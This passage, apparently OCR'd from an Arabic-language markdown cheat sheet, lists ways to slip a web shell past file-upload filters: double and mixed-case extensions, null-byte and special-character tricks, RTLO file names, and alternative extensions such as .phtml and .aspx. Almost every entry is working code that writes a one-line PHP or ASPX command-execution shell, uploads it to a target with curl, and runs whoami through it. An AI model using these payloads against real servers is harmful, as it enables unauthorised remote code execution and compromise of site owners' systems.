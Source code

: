 2. **الامتدادات المزدوجة العكسية**:
   ```bash
   echo '<?php system($_GET["cmd"]); ?>' > shell.php.jpg
   curl -X POST -F "file=@shell.php.jpg" http://<target>/upload
   curl 'http://<target>/Uploads/shell.php.jpg?cmd=whoami'
   ```

3. **الامتدادات بحالة أحرف مختلطة**:
   ```bash
   echo '<?php system($_GET["cmd"]); ?>' > shell.pHp
   curl -X POST -F "file=@shell.pHp" http://<target>/upload
   curl 'http://<target>/Uploads/shell.pHp?cmd=whoami'
   ```

4. **حقن البايت الفارغ**:
   ```bash
   echo '<?php system($_GET["cmd"]); ?>' > shell.php%00.jpg
   curl -X POST -F "file=@shell.php%00.jpg" http://<target>/upload
   curl 'http://<target>/Uploads/shell.php?cmd=whoami'
   ```

5. **الأحرف الخاصة**:
   ```bash
   echo '<?php system($_GET["cmd"]); ?>' > shell.php%20
   curl -X POST -F "file=@shell.php%20" http://<target>/upload
   curl 'http://<target>/Uploads/shell.php?cmd=whoami'
   ```
   ```bash
   echo '<?php system($_GET["cmd"]); ?>' > shell.php%0d%0a.jpg
   curl -X POST -F "file=@shell.php%0d%0a.jpg" http://<target>/upload
   curl 'http://<target>/Uploads/shell.php?cmd=whoami'
   ```
   ```bash
   echo '<?php system($_GET["cmd"]); ?>' > shell.php/
   curl -X POST -F "file=@shell.php/" http://<target>/upload
   curl 'http://<target>/Uploads/shell.php?cmd=whoami'
   ```

6. **التجاوز من اليمين إلى اليسار (RTLO)**:
   ```bash
   echo '<?php system($_GET["cmd"]); ?>' > shell.%E2%80%AEphp.jpg
   curl -X POST -F "file=@shell.%E2%80%AEphp.jpg" http://<target>/upload
   curl 'http://<target>/Uploads/shell.php?cmd=whoami'
   ```

7. **الامتدادات القابلة للتنفيذ البديلة**:
   ```bash
   echo '<?php system($_GET["cmd"]); ?>' > shell.phtml
   curl -X POST -F "file=@shell.phtml" http://<target>/upload
   curl 'http://<target>/Uploads/shell.phtml?cmd=whoami'
   ```
   ```bash
   echo '<% Response.Write(CreateObject("WScript.Shell").Exec("cmd /c whoami").StdOut.ReadAll()) %>' > shell.aspx
   curl -X POST -F "file=@shell.aspx" http://<target>/upload
   curl 'http://<target>/Uploads/shell.aspx'
   ```
